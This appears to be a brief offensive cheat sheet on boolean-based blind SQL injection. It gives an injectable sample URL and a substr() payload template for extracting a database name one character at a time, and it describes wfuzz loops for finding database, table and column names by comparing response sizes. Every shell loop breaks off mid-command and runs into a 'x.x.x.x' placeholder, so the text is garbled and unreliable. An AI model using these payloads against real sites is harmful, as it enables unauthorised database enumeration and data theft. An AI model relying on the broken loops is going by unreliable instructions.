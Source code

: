 # **boolean based**

### Determine databsae name with boolean-based blind SQL injection with substr()  
  

[http://meh.com/index.php?id=1'](http://meh.com/index.php?id=1%27)

### and (substr(database(),<offset>,<character length>))='<character>' --+  
  
  
Determine databsae name with boolean-based blind SQL injection by observing http response size with combination of substr() and wfuzz, assuming database name does not include special characters  
for i in $(seq 1 x.x.x.x  
  
Determine databsae name with boolean-based blind SQL injection by observing http response size with substr(), ascii() and wfuzz. The below range is the standard ASCII characters (32-127)  
for i in $(seq 1 x.x.x.x  
  
Determine table name with boolean-based blind SQL injection by observing http response size with substr(), ascii(), and wfuzz.The below range is the standard ASCII characters (32-127)  
for i in $(seq 1 x.x.x.x  
  
Determine column name with boolean blind-based SQL injection by observing http response size with substr(), ascii(), and wfuzz. The below range is the standard ASCII characters (32-127)  
for i in $(seq 1

x.x.x.x
